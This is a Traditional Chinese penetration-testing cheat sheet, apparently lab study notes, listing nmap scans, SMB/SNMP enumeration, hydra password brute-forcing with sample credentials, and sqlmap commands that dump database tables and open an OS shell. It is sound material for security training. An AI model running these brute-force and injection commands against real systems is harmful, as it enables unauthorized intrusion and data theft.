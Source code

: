 ### 掃描與列舉

<details>
  <summary>使用NMAP掃描網路</summary>
  
  ``` console
  nmap -sn 10.10.10.*
  nmap -sn 10.10.10.* --packet-trace
  nmap -sn scanme.nmap.org --packet-trace
  ```
</details>

<details>
  <summary>使用NMAP掃描主機</summary>

  ```console
  nmap 10.10.10.9
  nmap 10.10.10.9 --reason
    最常用的1000個端口/usr/share/nmap/nmap-services
  nmap 10.10.10.9 -p-
  nmap 10.10.10.16 -sU -p53,137-139,161,1900,5353
  nmap -p80 10.10.10.*
  nmap -p80 10.10.10.2,10,13 --reason
  nmap -p80 10.10.10.* --open
  ```
</details>

<details>
  <summary>使用NMAP識別作業系統與服務</summary>

  ```console
  nmap 10.10.10.16 -O
  nmap 10.10.10.16 -sV
  nmap 10.10.10.16 -sVC -p445,3389
  nmap 10.10.10.16 -sV -O -sC -Pn -p445,3389,389,3268
    for windows
  ```
</details>

<details>
  <summary>列舉常見網路服務</summary>

  ```console
  nmap -sU -p161 --open 10.10.10.*
  nmap -sU -p161 -sC 10.10.10.*
  snmp-check 10.10.10.16
  nmap -sU -p161 --script snmp-win32-users 10.10.10.16
  nbtscan 10.10.10.1-254
  enum4linux 10.10.10.16
  hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
  hydra -l jason -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
    smb可換rdp
  enum4linux -u martin -p apple -a 10.10.10.16
    -a可替換-S -U -P
  python3 -m pip install --upgrade impacket
  crackmapexec smb 10.10.10.16 -u martin -p apple --shares
  ```
</details>

### 掃描與攻擊網頁程式

<details>
  <summary>參數串改攻擊</summary>

  sqlmap -u "url" --cookie="<cookie>" 
  sqlmap -u "url" --cookie="<cookie>" --dbs 
  sqlmap -u "url" --cookie="<cookie>" -D dbname --tables 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T Login --columns --technique=B 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T Login -dump --technique=B 
  sqlmap -u "url" --cookie="<cookie>" --os-shell
</details>
